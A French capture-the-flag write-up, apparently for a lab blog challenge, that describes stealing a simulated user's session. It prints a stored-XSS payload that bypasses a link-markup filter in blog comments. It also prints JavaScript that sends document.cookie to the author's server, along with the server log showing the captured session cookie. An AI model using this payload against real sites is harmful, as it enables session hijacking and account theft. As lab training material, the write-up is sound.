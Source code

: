 ---------------------------

Objectif : *Gain access to the Blog as a registered user to reveal the hidden flag.*

Sur le blog on trouve différents billets dont un faisant référence à une API REST à l'adresse */api/documents*. On y reviendra plus tard...  

En suivant les pages du site cela m'a permis d'énumérer des utilisateurs possibles et de lancer une attaque force brute sur le formulaire de login... mais sans résultat.  

J'ai aussi remarqué que l'accès à la page de déconnexion provoque (même si l'on n'est pas connecté) les changements suivants sur les cookies :  

```plain
Set-Cookie:user=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT
Set-Cookie:remember=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT
Set-Cookie:activity=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT
```

Je n'ai rien trouvé à ce niveau toutefois à force de tentatives j'ai fini par remarquer l'indication suivante pour l'un des articles du blog :  

> on 11th February 2014 by Sycamore (who last viewed this 57 seconds ago)

Une tâche planifiée semble ainsi simuler la présence de l'utilisateur *Sycamore* qui va sur l'article en question à intervalle régulier.  

Le mécanisme de commentaires en bas de chaque article permet d'envoyer des commentaires sans authentification. A première vue il semble protégé contre les attaques XSS. Sauf qu'une indication nous explique comment poster des liens :  

> Links can be added with [Link title](http://example.com)

Le mécanisme BBcode-like nous permet de passer outre le filtrage des caractères. Ainsi j'ai pu poster le commentaire suivant :  

```plain
[<script src=http://192.168.1.3/test.js></script>](test)
```

Et le javascript est bien interprété. Dans le script *test.js* placé sur un serveur local j'ai mis le contenu suivant :  

```javascript
var image = document.createElement('img');
image.src = "http://192.168.1.3/" + document.cookie;
document.body.appendChild(image);
```

Un navigateur moderne bloquerait sans doute l'utilisation de *document.cookie* dans un cas comme celui-ci mais ici j'ai rapidement reçu des lignes de ce type dans les logs de mon serveur *Apache* :  

```plain
"GET /PHPSESSID=64pcr2a2hd583eqg579gpvrcs4;%20vip=0 HTTP/1.1" 403 - "http://localhost/blog.php?view=2" "
Mozilla/5.0 (Unknown; Linux i686) AppleWebKit/534.34 (KHTML, like Gecko) CasperJS/1.1.0-beta3+PhantomJS/1.9.7 Safari/534.34"
```

On voit ici l'utilisation de *PhantomJS*, un browser headless. On remarque surtout que l'exploitation a réussie.  
